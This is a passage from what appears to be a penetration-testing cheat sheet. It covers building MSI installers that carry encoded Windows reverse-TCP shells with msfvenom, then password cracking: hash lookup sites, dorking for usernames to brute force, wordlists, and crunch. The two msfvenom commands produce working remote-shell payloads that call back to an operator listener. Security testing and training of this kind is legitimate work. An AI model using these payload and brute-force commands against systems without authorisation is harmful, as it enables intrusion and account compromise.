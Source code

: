 To generate an `MSI file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

## 4. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use Google Dorks to find files and within file's metadata a domain username to brute force or use [FOCA](#foca).

**Keep in mind that you might lockout people's accounts.**

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which may prevent you from brute forcing.

You can find a bunch of wordlists located at `/usr/share/seclists/` directory.

Also, check the simple one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

**TO DO: Pre-shared key cracking with `ike-scan` and `psk-crack`.**

### 4.1 Useful Websites

[gchq.github.io/CyberChef](https://gchq.github.io/CyberChef/)

[www.onlinehashcrack.com](https://www.onlinehashcrack.com)

[hashkiller.io/listmanager](https://hashkiller.io/listmanager)

[crackstation.net](https://crackstation.net)

[weakpass.com/wordlist](https://weakpass.com/wordlist)

### crunch

Generate a lower-alpha-numeric wordlist:

```fundamental
crunch 4 6 -f /usr/share/crunch/charset.lst lalpha-numeric -o crunch_wordlist.txt
```

You can see the list of all available charsets or add your own in `charset.lst` located at `/usr/share/crunch/` directory.

